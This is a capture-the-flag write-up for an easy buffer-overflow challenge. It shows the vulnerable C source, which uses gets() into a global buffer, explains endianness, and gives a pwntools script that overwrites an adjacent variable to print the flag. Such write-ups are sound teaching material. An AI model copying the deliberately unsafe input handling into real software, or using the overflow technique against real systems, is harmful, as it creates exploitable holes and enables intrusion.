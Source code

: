 
# Bluffer Overflow 😏

## Overview & Description

Author : rennfurukawa

Points : Unknown

Difficulty : Easy

Maybe it's your first time pwning? Can you overwrite the variable?

[chall.c](../dist/chall.c)

## Hints

- Modified the variable with `specific` value
- Maybe **pwntools** can help you 😉

## TL;DR

- Overwrite the local variable with the character that have the exact value
- To find the character, you need to change the decimal value to hexadecimal
- Because of endianness, you need to reverse the character

## Exploitation

We were given the source code in C

<details>
<summary>chall.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("Output : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
</details>

So, to get the flag, we need to change the **buff2** value to **5134160**

First, we need to find the buffer, try to send character one by one, until the program return the value

After some trial and error, we find that the after the 20th input, the program turns the value

![](https://i.imgur.com/DZvy3au.png)

As we can see, if we send a character, program will turn its value to decimal

Based on ASCII Value, 65 is decimal of "A" character

![](https://i.imgur.com/D4ucS5n.png)

But, if we add character more than 1, the program will turn the value like this

![](https://i.imgur.com/ZqmeFNr.png)

This will happen if you store a byte into computer memory, program will read it in a certain order. So your value is converted to hexadecimal then reversed because of endianness. After that program will return it to decimal value.

To find the character, we need to change the value that we need to hexadecimal, then reverse it to big-endian

We can use python to do that

![](https://i.imgur.com/RN7HmgI.png)

We can pass that value to server and check if we get the flag

![](https://i.imgur.com/Rc3lILq.png)

And yeah, we get the flag !
    
Anyway, you can use pwntools to solve it more easier 😉

## Solve Script
    
<details>
<summary>solve.py</summary>

```python
from pwn import *

p = process("./bluffer")
# p = remote("HOST", PORT) # modified after competition

offset = 20

payload = flat({
	offset : [
		5134160
	]
})


p.sendline(payload)

p.interactive()
```